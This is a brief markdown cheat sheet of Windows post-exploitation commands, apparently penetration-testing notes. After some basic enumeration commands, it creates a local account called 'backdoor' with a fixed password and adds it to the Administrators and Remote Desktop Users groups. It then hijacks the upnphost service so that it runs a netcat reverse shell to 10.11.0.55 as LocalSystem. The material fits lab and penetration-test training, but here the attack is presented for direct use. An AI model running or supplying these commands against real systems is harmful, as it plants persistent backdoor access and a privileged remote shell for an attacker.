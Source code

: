 
## Windows commands:

`whoami`

`systeminfo | findstr /B "OS"` 

`ipconfig /all`

`netstat -an`

`route print`

`net start`

`tasklist /V`

`net user`

`net user bob`

`net use`

### Add user
`net user backdoor backdoor123 /add`

### Add user to Administrator group
`net localgroup Administrators backdoor /add`

### Add user to remotedesktop
`net localgroup "Remote Desktop Users" backdoor /add`

### Get directory permission

`cacls Music`

or

`icacls Music`

`accesschk.exe -uwcqv "Authenticated Users" *`

` accesschk.exe -ucqv SSDPSRV`

`sc qc upnphost`

`sc config upnphost binpath= "C:\Inetpub\scripts\nc.exe 10.11.0.55 1234 -e C:\WINDOWS\System32\cmd.exe"`

`sc config upnphost obj= ".\LocalSystem" password= ""`

`sc qc upnphost`

### remove the dependency:

`$ sc config upnphost depend= ""`
